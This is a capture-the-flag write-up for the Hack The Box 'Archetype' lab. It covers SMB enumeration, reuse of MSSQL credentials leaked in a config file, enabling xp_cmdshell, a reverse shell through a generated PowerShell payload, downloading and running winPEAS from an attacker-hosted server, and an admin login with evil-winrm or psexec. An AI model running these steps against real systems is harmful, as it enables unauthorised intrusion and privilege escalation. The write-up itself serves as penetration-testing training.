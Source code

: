 # Hack the Box - Archetype
## Overview
This is box with a Microsoft SQL server running (mssql) and smb running aswell. It does communicate with other computers on the network.

## Recon
`nmap`: ports 135 (Windows RPC), 139 (SMB), 1433 (mssql), and various other RPC ports that are used to communicate with other devices

### SMB
First goal is to see what shares are available to the anonymous user: 
</br> </br>
`smbclient -N -L \\\\<IP>` : Will list out the Shares that can be seen without logging in (-N is for no login and -L is to list them out). All admin shares end with `$`
</br></br>
We can see two created shares, `ADMIN$` and `backups`, and `backups` reveals one prod.dtsConfig file that you can download. 
</br></br>
A prod.dtsConfig file is meant to be a configuration file for a Microsoft SQL server and in this specific file, we see that there is login information for the mssql server that we can use to get into the server

### Microsoft SQL Server (mssql)
Using the information found in the prod.dtsConfig file, we can login into server as that specfic user.
</br></br>


## Exploitation
### Mssql
When you find a mssql server, they are typically going to be less monitored. And a lot of the EventID's that show up in the SIEM will be different and could be overlooked. The first thing we check is if `xp_cmdshell` is enabled on the server. This command allows you to run powershell commands in the mssql server.
</br></br>
`xp_cmdshell 'whoami'` </br>
`go` : Note that this command will run all the commands above it in the server
</br></br>
In this case, `xp_cmdshell` is disabled, however, we can try to enable it through our cli in mssql with the following command:
</br></br>
`sp_configure 'xp_cmdshell', '1'` </br>
`RECONFIGURE` </br>
`go`
</br></br>
This will allow us to now run powershell commands as sql_svc user, and we can try to get a reverse shell. To do this, I will be using `https://www.revshells.com/` to generate Base64 PowerShell commands to connect back to my computer (Make sure you have netcat running on the port that you give to revshells.com). Boom, now you can find the user flag in the user's desktop. But we want to also get the admin flag so we need privilege escalation.

## Privilege Escalation
To start this section of the pen test, we need to already have the reverse shell on the server as a basic user (sql_svc). For enumeration of privilege escalation, we are going to use winPEAS (open source git repo) but we need to actually get the script onto the victim. To do this, we are going to host a webserver with this file and have the victim download it. 
</br></br>
Start up a web server anyway you would like (usually either nginx (/var/www/html) or a python server) and place that .exe file in it. If you have a url link to a file to download, you can also just use that instead of hosting a server. Go back to the reverse shell and use `wget <IP>/<file.exe> -outfile <file.exe>` to download it on the victim (Note: you need to be in the user's Downloads folder for it to actually download). Then just run the executable and see what it ends up returning. 
</br></br>
Reading through all the output, we can see that it picked up an admin password in the `Console_history.txt` file and so now we have the credentials for the admin.

### evil-winrm
Now, we just need to connect to the server with those credentials and one way to do that is with the `evil-winrm` tool (you could also use the `psexec.py` module in `impacket`). So, just use the following command to connect to the victim: 
</br></br>
`evil-wirnm -i <IP> -u <USER or administrator>`
</br>
or
</br>
`python3 psexec.py <USER or administrator>@<IP>`
</br></br>

Next, just grab the admin flag from the Desktop and you are done
